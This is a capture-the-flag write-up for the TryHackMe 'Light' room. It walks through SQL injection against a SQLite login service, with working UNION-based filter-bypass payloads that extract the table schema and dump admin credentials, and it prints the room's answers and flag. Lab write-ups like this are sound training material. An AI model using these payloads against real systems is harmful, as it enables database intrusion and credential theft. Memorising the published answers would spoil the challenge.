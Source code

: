 ## Light - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/lightroom)

<i>Welcome!</i>

<i>I am working on a database application called Light! Would you like to try it out?</i>
<i>If so, the application is running on port 1337. You can connect to it using nc MACHINE_IP 1337</i>
<i>You can use the username smokey in order to get started.</i>

<i>**Note: Please allow the service 2 - 3 minutes to fully start before connecting to it**<i>.

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: SQL Injection <br>

**Tools Used**: Nmap<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

IP: 10.10.237.33<br>
Username: `smokey`<br>
Password: `vYQ5ngPpw8AdUmL` ; you get this password when you get netcat connection<br>

- Nmap Scan

  ```
  nmap -A -p- 10.10.237.33
  ```

- Found:

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)<br>
1337/tcp open  waste?

## ⚙️ Exploitation 

  ```
  nc 10.10.237.33 1337
  ```

After connecting, type smokey to get his password `vYQ5ngPpw8AdUmL`

- Now we start with the payloads:
  First we check if SQLI is actually possible.

  ```
  smokey'
  smokey' UNION SELECT 1 -- -
  smokey' UNION SELECT 1 #
  ```

- I got various different responses with different queries and I concluded that filtering is present. Now, it took me a bit to find the specific filter bypass since I wanted to find which DBMS is used.<br>
  This is what I used:

  ```
  smokey' UnIon SeLect @@version '
  smokey' UnIon SeLect version() '
  smokey' UnIon SeLect sqlite_version() '
  ```

  Only got positive response with `smokey' UnIon SeLect sqlite_version() '` so its a SQLite database!

  Now extracting the values from DBMS:

- This one extracts table names, it gave me `admintable`:

  ```
  smokey' UnIon SeLect tbl_name FROM sqlite_master WHERE type='table
  ```

- This one extracts schema of table in SQLite:

  ```
  smokey' UnIon SeLect sql FROM sqlite_master WHERE name = 'admintable
  ```

- Now for final push, lets get both usernames and passwords from admintable:

  ```
  smokey' UnIon SeLect group_concat(username || ":" || password) FROM admintable '
  ```

**Result of last query**: `Password:TryHackMeAdmin:mamZtAuMlrsEy5bp6q17,flag:THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

- **Theres various different resources/documentation to help you out with this challenge, I prefer PayloadsAllTheThings**.

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## 🏁 Flags

- **What is the admin username?** : `TryHackMeAdmin`
- **What is the password to the username mentioned in question 1?** : `mamZtAuMlrsEy5bp6q17`
- **What is the flag?** : `THM{SQLit3_InJ3cTion_is_SimplE_nO?}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?<br>
  `It took me a bit to realise that netcat connection gives you immediate access to the database...`
  
- What did I learn?<br>
  `Just kept sharpening SQLI skills`
  
- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!
  
- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
